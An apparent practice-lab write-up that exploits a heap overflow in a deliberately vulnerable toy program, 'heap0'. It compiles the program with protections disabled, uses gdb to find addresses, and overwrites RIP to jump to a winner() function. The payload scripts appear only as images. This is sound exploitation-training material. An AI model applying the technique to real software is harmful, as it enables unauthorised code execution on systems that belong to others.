## Heap Overflow Practice
___
### Description
Heap overflow is a common vulnerability that can be exploited to gain code execution. This lab will walk you through the process of exploiting a heap overflow vulnerability.
___
AAAA            -> 0x4052a0
### Setup
Ubuntu 22.04.3 LTS
gcc version 11.3.0 (Ubuntu 11.3.0-1ubuntu1~22.04)
gbd version 12.0.90

___
### Exploitation

#### Step 1: Compile the vulnerable program
Compile the vulnerable program with the following command:
```
gcc heap0.c -w -g -no-pie -z execstack -o heap0
./heap0 HELLO
./heap0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

___
#### Step 2: Examine the source code
We observe the memory allocation for the heap overflow vulnerability.
```
gdb ./heap0
list 25,40
b 38
run AAAA
info proc map
```
My heap allocation is in address 0x405000


___
#### Step 3: Find the "AAAA" string in memory
```
x/240x 0x405000
```
We can see the register with string "AAAA" (0x41414141) 0x4052a0


___
#### Step 4: Find the return address of nowinner()
```
disassemble nowinner
```
We can see NoWinner Address in 0x004011b4 (0x4052f0)


___
### Step 5: Observing Crash
h1 Script:

```
./heap0 $(./h1)
```

___
### Step 6: Controlling RIP
h2 Script:

```
gdb -q ./heap0
run $(./h2)
info registers
```
We can see the RIP register is 0x40124c


___
### Step 7: Targeting the RIP
h3 Script:

```
gdb -q ./heap0
run $(./h3)
info registers
```


We can see that we have correctly targeted the RIP register. 
**CDEF => 0x46454443**
___
### Step 8: Finding the address to Inject
We need to find the address of the shellcode we want to inject into the program. We can use the following command to find the address of the shellcode:
```
disassemble winner
```

___
### Step 9: Creating the injecting Shellcode
h4 Script:

**Be carefull with the endian**
The address winner address is 0x0040119a
So, we add String inverted "\x9a\x11\x40\x00"
___
### Step 10: Injecting the Shellcode
We execute the following command to inject the shellcode into the program:
```
./heap0 $(./h4)
```

**LEVEL PASSED!!**
**HEAP OVERFLOW VULNERABILITY EXPLOITED!!**
___
